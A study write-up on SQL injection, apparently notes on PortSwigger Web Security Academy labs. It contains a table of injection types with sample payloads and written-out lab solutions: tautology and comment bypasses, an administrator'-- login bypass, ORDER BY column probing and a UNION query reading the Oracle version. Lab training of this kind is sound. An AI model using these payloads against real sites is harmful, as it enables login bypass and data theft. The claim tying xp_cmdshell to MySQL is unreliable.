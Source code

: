 Could be used to:
- Bypass authentication
- Read sensitive data (e.g., credit card numbers, emails)
- Modify/delete data
- Execute admin operations on the DB
- Access OS-level commands (in some DBs like MySQL with xp_cmdshell)

**Types of SQL Injection**

| Type | Description | Example |
|------|-------------|---------|
| Classic/Inline | Injected directly in parameters | ' OR '1'='1 |
| Blind (Boolean-based)	| No error/output shown, relies on observing responses | ' AND 1=1 -- |
| Time-based Blind | Uses delay to infer results | ' OR IF(1=1, SLEEP(5), 0) -- |
| Error-based | Uses DB error messages to extract info | ' AND 1=CONVERT(int, (SELECT @@version)) -- |
| Out-of-Band |	Uses external server to exfiltrate data (e.g., via DNS) | Rare but dangerous |

### SQLi labs (Apprentice)

#### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- At first I just commented out release but it didn't solved the lab so apparently we need all the products using `' or 1=1 --`:

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Gifts%27+or+1=1--
```

#### Lab: SQL injection vulnerability allowing login bypass

```html
administrator'--
```

### SQLi labs (Practitioner)

#### Lab: SQL injection attack, querying the database type and version on Oracle

- Since we know it is oracle db we need to use table in union but first let's identify how many columns (starting with ORDER BY 1 - no error, and on 3 we get an error):

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Accessories%27+order+by+3+--
```
- So let's use 2 columns for our `union`:

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Accessories%27+union+select+banner,null+from+v$version+--
```

#### Lab: SQL injection UNION attack, determining the number of columns returned by the query
